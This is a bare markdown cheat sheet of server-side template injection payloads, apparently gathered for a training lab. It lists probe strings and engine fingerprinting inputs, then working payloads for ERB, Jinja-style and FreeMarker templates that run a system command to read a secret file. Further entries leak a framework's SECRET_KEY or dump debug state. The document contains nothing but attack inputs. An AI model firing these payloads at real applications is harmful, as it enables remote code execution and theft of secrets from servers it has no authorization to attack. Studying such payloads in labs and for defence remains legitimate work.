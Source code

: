 # SSTI

```
{{7*7}}
```
```
${7*7}
```
```
<%= 7*7 %>
```
```
${{7*7}}
```
```
#{7*7}
```
```
${foobar}
```
```
${{<%[%'"}}%\.
```
```
<%= system("cat /home/carlos/secret") %>
```
```
<%25+system("cat+/home/carlos/secret")+%25>
```
```
{% import os %}{{os.system('cat /home/carlos/secret')
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /home/carlos/secret") }
```
```
{{settings.SECRET_KEY}}
```
```
${{<%[%'"}}%\,
```
```
{% debug %}
```